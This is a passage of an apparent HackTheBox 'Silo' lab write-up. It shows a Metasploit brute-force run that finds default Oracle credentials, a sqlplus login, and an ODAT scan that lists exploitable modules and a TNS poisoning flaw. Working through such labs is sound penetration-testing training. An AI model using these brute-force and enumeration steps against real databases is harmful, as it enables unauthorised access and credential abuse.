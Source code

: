 Now, I just need to execute the module:

```bash
msf6 auxiliary(admin/oracle/oracle_login) > run

[*] Starting brute force on 10.10.10.82:1521...
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE
[*] Auxiliary module execution completed
```

There are the credentials. I noticed that these are one of the default credentials for the service.

To connect to the database, I use a tool made by oracle for this purpose. It's called sqlplus:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ sudo apt install oracle-instantclient-sqlplus

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ sqlplus scott/tiger@silo.htb:1521/XE 

SQL*Plus: Release 19.0.0.0.0 - Production on Mon Aug 30 12:41:11 2021
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```

The connection works, I just check the privileges that I have:

```sql
SQL> SELECT * FROM user_role_privs;   

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

Now, I return to ODAT and try all modules on the target:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ sudo odat all -s silo.htb -d XE -U scott -P tiger

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning
[2] (10.10.10.82:1521): Testing all modules on the XE SID with the scott/tiger account
[2.1] UTL_HTTP library ?
[-] KO
[2.2] HTTPURITYPE library ?
12:45:49 WARNING -: Impossible to fetch all the rows of the query select 
httpuritype('http://0.0.0.0/').getclob() from dual: `ORA-29273: HTTP 
request failed ORA-06512: at "SYS.UTL_HTTP", line 1819 ORA-24247: network access 
denied by access control list (ACL) ORA-06512: at "SYS.HTTPURITYPE", line 34`
[-] KO
[2.3] UTL_FILE library ?
[-] KO
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
```